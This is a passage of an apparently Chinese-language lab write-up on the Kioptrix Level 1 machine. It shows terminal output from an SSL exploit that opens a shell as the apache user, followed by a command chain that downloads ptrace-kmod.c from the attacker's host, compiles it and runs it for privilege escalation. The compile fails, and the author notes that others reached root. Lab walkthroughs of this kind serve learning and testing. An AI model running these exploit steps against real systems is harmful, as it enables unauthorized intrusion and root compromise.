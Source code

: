Connection... 50 of 50
Establishing SSL connection
cipher: 0x4043808c   ciphers: 0x80f8068
Ready to send shellcode
Spawning shell...
bash: no job control in this shell
bash-2.05$ 
; gcc -o exploit ptrace-kmod.c -B /usr/bin; rm ptrace-kmod.c; ./exploit; -kmod.c 
--05:53:47--  http://192.168.43.24:8888/ptrace-kmod.c
           => `ptrace-kmod.c'
Connecting to 192.168.43.24:8888... connected!
HTTP request sent, awaiting response... 200 OK
Length: 202,044 [text/x-csrc]

    0K .......... .......... .......... .......... .......... 25% @   2.57 MB/s
   50K .......... .......... .......... .......... .......... 50% @   1.95 MB/s
  100K .......... .......... .......... .......... .......... 76% @   1.36 MB/s
  150K .......... .......... .......... .......... .......   100% @   2.72 MB/s

05:53:47 (1.99 MB/s) - `ptrace-kmod.c' saved [202044/202044]

ptrace-kmod.c:571:10: missing terminating ' character
ptrace-kmod.c:1402:8: missing terminating ' character
ptrace-kmod.c:1412:16: missing terminating ' character
ptrace-kmod.c:2315:12: missing terminating ' character
gcc: file path prefix `/usr/bin' never used
bash: ./exploit: No such file or directory
bash-2.05$ 
bash-2.05$ id
id
uid=48(apache) gid=48(apache) groups=48(apache)
bash-2.05$
</code></pre>

这里并没有成功，但是看别人是拿到了root

{% embed url="https://www.c0dedead.io/kioptrix-level-1-walkthrough-part-1-mod_ssl/" %}









[^1]: 

[^2]: 
